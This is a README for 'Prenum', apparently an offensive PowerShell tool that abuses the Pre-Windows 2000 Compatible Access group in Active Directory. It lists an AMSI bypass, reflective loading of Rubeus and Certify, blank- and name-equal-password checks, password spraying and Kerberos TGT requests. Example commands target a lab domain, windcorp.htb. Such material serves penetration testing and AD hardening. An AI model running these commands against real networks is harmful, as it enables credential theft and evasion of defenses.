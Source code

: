 # prenum

## The perils of the Pre-Windows 2000 compatible access group in a Windows Domain.
<p>On Windows 2000 and probably 2003/2008 too (not verified), that group contained groups: Anonymous/Everyone/Authenticated Users
Even if you have upgraded your Domain Controllers to Windows 2022, that group is kept unchanged.</p>

That means a anonymous user can query domain information, like userinfo, group membership, trusts, etc.
Even newly installed domains running Windows 2022, will still have Authenticated users as members in that group.

So if you have user credentials, you can still query all that information.

Prenum is a script exploiting this, by requesting information that might be useful for an attacker.
It can search for computer account with password the same as computername or no password at all. 

This could be the situation if some computer-accounts are pre-created with the box "Assign this computer account as a pre-Windows 2000 computer"
are ticked, or computer-accounts are created with other tools.


## Functions
- Full AMSI-Bypass
- Reflectively loading Rubeus and Certify
- Enumerate and test all computers in AD; check if their password is the same as the computername
- Enumerate all users in AD; check if the password is blank
- Passwordspray all users in AD
- Request Kerberos TGT for computer and/or user-accounts found vulnerable (Using Rubeus)
- Test for vulnerable certificate templates (Using Certify)
- Do simple LDAP searches
- Run any Rubeus command
- Run any Certify command

## Usage
### Enumerate and test users, computers and passwordspraying

        .\Prenum.ps1' -DC menhit -Domain windcorp.htb -Users -Computers -Spraypass 'WelcomeToWindcorp#2023'
### Enumerate computers and request Kerberos TGT if vulnerable computer-accounts are found

        .\Prenum.ps1' -DC menhit -Domain windcorp.htb -Computers -Asktgt

### Running Rubeus

        .\Prenum.ps1 -DC menhit -Domain windcorp.htb -Rubeus "triage"

### Running Certify

        .\Prenum.ps1 -Certify "cas /domain:windcorp.htb"

### LDAP-search for Domain-controllers

        .\Prenum.ps1 -DC menhit -Domain windcorp.htb -ldap "(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=8192))"


